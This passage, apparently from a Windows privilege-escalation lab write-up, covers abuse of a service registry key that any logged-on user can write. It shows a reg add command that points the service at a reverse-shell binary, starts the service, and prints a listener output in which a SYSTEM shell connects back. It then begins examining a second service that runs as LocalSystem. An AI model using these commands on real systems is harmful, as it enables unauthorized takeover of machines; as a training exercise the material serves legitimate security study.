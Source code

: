 it's writable by `NT AUTHORITY\INTERACTIVE` group which means all logged-on users.

- Edit registry 

```bash
C:\PrivEsc>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\rev.exe /f

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\rev.exe /f
The operation completed successfully.
```

- run service

```bash
C:\PrivEsc>net start regsvc
net start regsvc
```

```bash
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 10.10.27.238 49825 received!
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system

```



**`Service Exploits - Insecure Service Executables`**

- check service  run with permission

```bash
>sc qc filepermsvc
sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: filepermsvc
        TYPE               : 10  WIN32_OWN_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\File Permissions Service\filepermservice.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : File Permissions Service
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem

```

service run with system privilege `SERVICE_START_NAME : LocalSystem`
